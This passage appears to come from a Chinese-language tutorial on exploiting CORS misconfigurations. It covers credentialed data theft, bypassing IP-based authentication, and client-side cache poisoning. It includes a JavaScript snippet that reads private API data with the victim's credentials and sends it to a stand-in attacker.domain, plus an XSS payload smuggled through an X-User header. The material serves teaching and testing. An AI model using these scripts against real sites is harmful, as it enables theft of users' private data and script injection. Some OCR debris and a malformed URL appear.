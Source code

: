 ```
HTTP/1.1 200 OK
…
Access-control-allow-credentials: true
Access-control-allow-origin: https://attacker.domain
…
```

### 漏洞利用

####  有用户凭据的利用
可利用的条件：   
Access-Control-Allow-Credentials:True   
Access-Control-Allow-Origin:Null 或者https://attacker.domain   

在这次测试示例中，服务器返回的报文头部中已经表明完全信任“attacker.   domain”这个域，并且可以向这个域中发送用户凭据。   
利用脚本：   
```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open(“get”,”https://vulnerable.domain/api/private-data”,true);
req.withCredentials = true;
req.send();
function reqListener() {
location=”https//attacker.domain/log?response=”+this.responseText;
};
```
#### 没有用户凭据的利用方式
可利用的条件：   
Access-Control-Allow-Origin的值，https://attacker.com，* ，null   
可达到的效果：   
##### 绕过基于ip的身份验证

如果目标从受害者的网络中可以到达，但使用ip地址作为身份验证的方式。这种情况通常发生在缺乏严格控制的内网中。在这种场景下，黑客会利用受害者的浏览器作为代理去访问那些应用并且可以绕过那些基于ip的身份验证。就影响而言，这个类似于DNS重绑定，但会更容易利用。   
##### 客户端缓存中毒

这种配置允许攻击者利用其他的漏洞。   
比如，一个应用返回数据报文头部中包含“X-User”这个字段，这个字段的值没有经过验证就直接输出到返回页面上。请求：   
```
GET /login HTTP/1.1
Host: www.target.local
Origin: https://attacker.domain/
X-User: <svg/onload=alert(1)>
```
返回报文（注意：“Access-Control-Allow-Origin”已经被设置，但是“Access-Control-Allow-Credentials: true”并且“Vary: Origin”头没有被设置）
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://attacker.domain/
…
Content-Type: text/html
…
Invalid user: <svg/onload=alert(1)
```
攻击者可以把xss的exp放在自己控制的服务器中的JavaScript代码里面然后等待受害者去触发它。   
```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','http://www.target.local/login',true);
req.setRequestHeader('X-User', '<svg/onload=alert(1)>');
req.send();
function reqListener() {
location='http://www.target.local/login';
}
```